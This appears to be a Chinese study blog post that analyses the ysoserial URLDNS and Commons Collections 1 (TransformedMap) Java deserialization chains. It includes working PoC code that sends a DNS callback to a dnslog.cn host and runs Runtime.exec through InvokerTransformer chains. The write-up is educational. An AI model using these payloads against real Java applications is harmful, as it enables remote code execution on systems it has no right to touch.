# 前言

本文主要参考P神的java漫谈,以及一些网上的资料,加上一些自己的思考。因为我也接触java没多久,文章对于和我一样的小白来说可能就比较友好。可能也会有一些理解方面的错误,欢迎师傅们指正。

# URLDNS

URLDNS是ysoserial中最简单的一条利用链,因为其如下的优点,⾮常适合我们在检测反序列化漏洞时使⽤：

> 使⽤Java内置的类构造，对第三⽅库没有依赖
>
> 在⽬标没有回显的时候，能够通过DNS请求得知是否存在反序列化漏洞

在ysoserial下生成URLDNS命令为:

```cmd
 java -jar .\ysoserial.jar URLDNS "http://xxx.dnslog.cn"
```

大致流程为:

> 1. HashMap->readObject()
>
> 2. HashMap->hash()
>
> 3. URL->hashCode()
>
> 4. URLStreamHandler->hashCode()
>
> 5. URLStreamHandler->getHostAddress()
>
> 6. InetAddress->getByName()

[URLDNS.java](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java)

关键的代码只有简简单单的四十多行



## 利用链

```
      HashMap.readObject()
        HashMap.putVal()
          HashMap.hash()
 *           URL.hashCode()
```

## 原理分析

先贴poc,大家可以一边调试一边分析

```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;
public class URLDNS {
    public static Object urldns() throws Exception{
        //漏洞出发点 hashmap，实例化出来
        HashMap<URL, String> hashMap = new HashMap<URL, String>(); //URL对象传入自己测试的dnslog
        URL url = new URL("http://txbjb7.dnslog.cn"); //反射获取 URL的hashcode方法
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode"); //使用内部方法
        f.setAccessible(true);
        // hashMap.put时会调用hash(key),这里先把hashCode设置为其他值,避免和后面的DNS请求混淆
        f.set(url, 0xAAA);
        hashMap.put(url, "Yasax1");
        // hashCode 这个属性放进去后设回 -1, 这样在反序列化时就会重新计算 hashCode
        f.set(url, -1);
        // 序列化成对象，输出出来
       return hashMap;
    }
    public static void main(String[] args) throws Exception {
        payload2File(urldns(),"obj");
        payloadTest("obj");
    }
    public static void payload2File(Object instance, String file)
            throws Exception {
        //将构造好的payload序列化后写入文件中
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(file));
        out.writeObject(instance);
        out.flush();
        out.close();
    }
    public static void payloadTest(String file) throws Exception {
        //读取写入的payload，并进行反序列化
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
        in.readObject();
        in.close();
    }
}
```

首先在HashMap类中,有出发反序列化的方法readObject,找到HashMap类中的readobject方法



在readObject方法的最后一排,调用了hash方法,然后又调用了key的hashCode()方法,这里我们的key可控



接下来在`java.net.URL`类中,存在一个hashCode()方法,



这里的handler是一个URLStreamHandler 对象,跟进他的hashCode方法,不过这里我们进入handler.hashCode有一个前提,就是我们的hashCode=-1;



跟进getHostAddress方法



这里有一个InetAddress.getByName(host),获取目标ip地址,其实在网络中就是一次DNS请求.

> 所以我们只需要new一个hashmap,然后让它的key等于一个java.net.URL对象,然后,设置这个 URL 对象的 hashCode 为初始值 -1 ,这样反序列化时将会重新计算其 hashCode ,才能触发到后⾯的DNS请求,到此我们的链子就构造完成了

不过ysoserial跟我们的exp有一些不同,那是因为ysoserial为了防⽌在⽣成Payload的时候也执⾏了URL请求和DNS查询,重写了一个SilentURLStreamHandler类,这和我们的exp中的 `f.set(url, 0xAAA);`是一样的效果

## 流程图



# CC1

## 前言

Commons Collections的利用链也被称为cc链，在学习反序列化漏洞必不可少的一个部分。Apache Commons Collections是Java中应用广泛的一个库，包括Weblogic、JBoss、WebSphere、Jenkins等知名大型Java应用都使用了这个库。CC1指的是lazymap那条链子,但是网上也有很多关于transformedmap的分析,这里也分析一下。还有就是CC1的测试环境需要在Java 8u71以前。在此改动后，AnnotationInvocationHandler#readObject不再直接使⽤反序列化得到的Map对象，⽽是新建了⼀个LinkedHashMap对象，并将原来的键值添加进去。所以，后续对Map的操作都是基于这个新的LinkedHashMap对象，⽽原来我们精⼼构造的Map不再执⾏set或put操作，

## 测试环境

- JDK 1.7
- Commons Collections 3.1

# transformedmap链

## POC

```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.annotation.Target;
import java.lang.annotation.RetentionPolicy;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;
import java.lang.reflect.Method;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

public class CommonCollections11 {
    public static Object generatePayload() throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "calc" })
        };               //这里和我上面说的有一点点不同,因为Runtime.getRuntime()没有实现Serializable接⼝,所以这里用的Runtime.class。class类实现了serializable接⼝

        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innermap = new HashMap();
        innermap.put("value", "xxx");
        Map outmap = TransformedMap.decorate(innermap, null, transformerChain);
        //通过反射获得AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        //通过反射获得cls的构造函数
        Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
        //这里需要设置Accessible为true，否则序列化失败
        ctor.setAccessible(true);
        //通过newInstance()方法实例化对象
        Object instance = ctor.newInstance(Retention.class, outmap);
        return instance;
    }

    public static void main(String[] args) throws Exception {
        payload2File(generatePayload(),"obj");
        payloadTest("obj");
    }
    public static void payload2File(Object instance, String file)
            throws Exception {
        //将构造好的payload序列化后写入文件中
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(file));
        out.writeObject(instance);
        out.flush();
        out.close();
    }
    public static void payloadTest(String file) throws Exception {
        //读取写入的payload，并进行反序列化
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
        in.readObject();
        in.close();
    }
}
```

## 调用链

```
ObjectInputStream.readObject()
            AnnotationInvocationHandler.readObject()
              	MapEntry.setValue()
               		TransformedMap.checkSetValue()
                            ChainedTransformer.transform()
                                ConstantTransformer.transform()
                                InvokerTransformer.transform()
                                    Method.invoke()
                                        Class.getMethod()
                                InvokerTransformer.transform()
                                    Method.invoke()
                                        Runtime.getRuntime()
                                InvokerTransformer.transform()
                                    Method.invoke()
                                        Runtime.exec()
```


## TransformedMap

TransformedMap⽤于对Java标准数据结构Map做⼀个修饰，被修饰过的Map在添加新的元素时，将可以执⾏⼀个回调。



这里它的构造方法为protected类型,创建对象需要通过TransformedMap.decorate()来获得一个TransformedMap实例

```java
Map outerMap = TransformedMap.decorate(innerMap, keyTransformer, valueTransformer);
```

在TransformedMap类中有三个方法,它会执行传入的参数的transform()方法





## transformer

transformer是一个接口,它只有一个待实现的方法

```java
public interface Transformer {
	public Object transform(Object input); 
}
```

## ConstantTransformer



`ConstantTransformer`函数是实现`transformer`接口的一个类,在该函数里面有一个构造函数,会传入我们的`Object`,在`transform`方法中又会将该`Object`返回

## InvokerTransformer

该类的构造方法中传入三个变量,分别是方法名,参数的类型,和参数





然后又会在transform方法中利用反射的知识,执行了input对象的iMethodName,但是这里有一个问题,就是transform方法中的input对象我们并不能控制,这里就要用到我们的下一个知识点

## ChainedTransformer

该方法首先有一个构造函数,将传入的Transformer类型的数组赋值给iTransformers,这里iTransformers是一个数组



而在该函数的transform方法中,有意思的来了



它会将前一个transform返回的结果作为后一个对象的传参,假设我们传入的Transformer[]数组中有两个数据

> new ConstantTransformer(Runtime.getRuntime()) 
>
> new InvokerTransformer("exec", new Class[]{String.class},new Object[{"calc"})

这样我们就可以执行系统命令了,当然还有个前提:就是触发TransformedMap中的那三个方法,这也就是关键的地方了,这三个方法的类型都是protected,前两个由下面这两个public方法调用



而checkSetValue则可以从注释中看到,当调用该类的setvalue方法时,会自动调用checkSetValue方法,而该类的setValue方法则继承于它的父类`AbstractInputCheckedMapDecorator`



去它的父类看一下

## AbstractInputCheckedMapDecorator



这里的this.parent传入的就是TransformedMap,**AbstractInputCheckedMapDecorator** 的根父类实际就是 **Map** ，所以我们现在只需要找到一处 **readObject** 方法，只要它调用了 **Map.setValue()** 方法,即可完成整个反序列化链。(这里涉及一些多态的知识)

下面，我们来看满足这个条件的 `AnnotationInvocationHandler` 类，该类属于 **JDK1.7** 自带

## AnnotationInvocationHandler



AnnotationInvocationHandler类的readObject 方法中看到 **setValue** 方法的调用

这里先看看它的构造函数

这里先直接给出两个条件：

1. `sun.reflect.annotation.AnnotationInvocationHandler` 构造函数的第⼀个参数必须是

Annotation的⼦类，且其中必须含有⾄少⼀个⽅法，假设⽅法名是X

2. 被 `TransformedMap.decorate` 修饰的Map中必须有⼀个键名为X的元素

所以，在Retention有⼀个⽅法，名为value；所以，为了再满⾜第⼆个条件，我需要给Map中放⼊⼀个Key是value的元素：

```
innerMap.put("value", "xxxx"); 
```

接下来来分析一下为什么需要有一个方法名和我们key一样

```java
    AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {
        Class[] var3 = var1.getInterfaces();
        if (var1.isAnnotation() && var3.length == 1 && var3[0] == Annotation.class) {
            this.type = var1;                   //this.type是我们传入的Annotation类型Class
            this.memberValues = var2;			//memberValues为我们传入的map
        } else {
            throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
        }
    }
private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        var1.defaultReadObject();
        AnnotationType var2 = null;

        try {
            var2 = AnnotationType.getInstance(this.type);  //跟进getInstance,这里先看下面的图片以及文字
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var3 = var2.memberTypes();  //这个方法返回var2.memberTypes,我们的memberTypes是一个hashmap,而且key为"value"
        Iterator var4 = this.memberValues.entrySet().iterator();//memberValues为我们传入的map

        while(var4.hasNext()) {
            Entry var5 = (Entry)var4.next();     //遍历map
            String var6 = (String)var5.getKey();//获取map的key,这里我们传入一个值为value的key,令var6="value"
            Class var7 = (Class)var3.get(var6);//在var3中找key为var6的值,如果在这里没有找到,则返回了null,所以我们需要找一个Annotation类型有方法名为我们map的key
            if (var7 != null) {
                Object var8 = var5.getValue();
                if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {
                    var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
                }
            }
        }

    }
```

### var1.getAnnotationType

跟进var1.getAnnotationType方法



这里前面两个直接过了,来到了第三步,new AnnotationType(var0),这里var0为我们传入的Annotation类型Class跟进去



后面返回了Annotation类型的所有Methods。接着遍历的它的所有方法,这里经过了一个for循环,var6是获得的Methods,var7接着获取了方法名。然后将返回的方法名put到了memberTypes中,这里比较关键,后面会用上,现在大家就记住memberTypes是一个hashmap对象,里面的key是我们传入的Annotation类型Class的方法名字



总结一下这一段就类似于这段代码:



## java.lang.annotation.Retention

在该类中有一个value方法



所以我们map类再传一个

```
innermap.put("value", "xxx");
```

其实这里不止这一个类可以使用,如**java.lang.annotation.Target** 也可

## 流程图

